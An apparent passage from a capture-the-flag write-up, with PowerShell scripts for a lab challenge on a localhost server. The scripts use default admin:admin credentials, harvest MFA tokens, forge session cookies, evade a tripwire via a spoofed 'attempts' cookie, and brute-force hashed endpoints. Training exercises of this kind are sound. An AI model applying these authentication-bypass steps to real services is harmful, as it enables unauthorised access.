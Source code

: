 ```
  $response = (Invoke-WebRequest -WebSession $session "http://127.0.0.1:1225/tokens/$sha256" -Headers @{ Authorization = "Basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin"))}).Content
  $token = ($response | Select-String -Pattern '([0-9.]{16,})').Matches.Value;
  $cookie = [System.Net.Cookie]::new('mfa_token',$token);
  $session.Cookies.Add('http://127.0.0.1/',$cookie);
  $ProgressPreference = 'SilentlyContinue';
  $response = Invoke-WebRequest -WebSession $session "http://127.0.0.1:1225/mfa_validate/$sha256" -Headers @{ Authorization = "Basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin"))};
  "$md5 : $response"
  return $response
}

# connect @("5f8dd236f862f4507835b0e418907ffc","4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C")

# connect to all endpoints
$unredacted_endpoints | %{ connect @($_.md5,$_.sha256) } | out-file results.txt
gc results.txt

```

> The file 'welcome.txt' explains the steps we need to perform to complete the challenge:
>
> ~~~
> Access and System Restoration
> To restore access to the system, users must follow strict procedures. First, authorized personnel must identify the scrambled endpoint. Next, they must deactivate the defense mechanisms by entering the override code and presenting the required token. After verification, the system will resume standard operation, and access to weaponry is reactivated.
> ~~~
> 
> Our plan is as follows:
>
> 1\) Trigger the Tripwire Canary defenses by supplying a bogus 'attempts' cookie
> 
> 2\) After the tripwire is triggered, read the mfa code received
> 
> 3\) Change the 'attempts' cookie to the shared cookie value 'c25ha2VvaWwK01'
> 
> 4\) Make legitimate requests to the /mfa_validate endpoints.
> 
> 5\) Send at least 10 requests per endpoint within 2 seconds
> 
> 6\) Since the endpoints were scrambled, we try all endpoints

Run the following PowerShell script to execute the steps above:

```
# Grab the list of tokens
(iwr 'http://127.0.0.1:1225/token_overview.csv' -Headers @{ Authorization = "Basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin")) }).Content | Out-File output.txt

# Undo redacting of the SHA256 hashes
Function unredact {
  param($string);
  $endline = [byte[]]@(0x0A);
  $stringBytes = [System.Text.Encoding]::UTF8.GetBytes($string);
  $utf = $stringBytes + $endline;
  $mystream = [IO.MemoryStream]::new([byte[]][char[]]$utf);
  Get-FileHash -InputStream $mystream -Algorithm SHA256;
}
```